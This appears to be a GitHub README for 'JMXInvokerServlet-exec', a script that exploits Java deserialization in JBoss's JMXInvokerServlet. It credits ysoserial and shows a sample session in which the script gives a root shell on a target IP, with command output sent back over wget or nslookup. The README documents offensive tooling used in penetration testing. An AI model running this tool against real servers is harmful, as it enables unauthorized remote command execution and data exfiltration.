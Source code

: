 # JMXInvokerServlet-exec
JMXInvokerServlet serialized objects command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute and retrieve commands output (through wget or nslookup requests) from a vulnerable target like in a shell.

## Example
```shell
root@kali:~/script/JMXInvokerServlet-exec/wget# python cmd_shell.py 192.168.1.20 
$> id
uid=0(root) gid=0(root) groups=0(root)

$> exit
Bye!
```
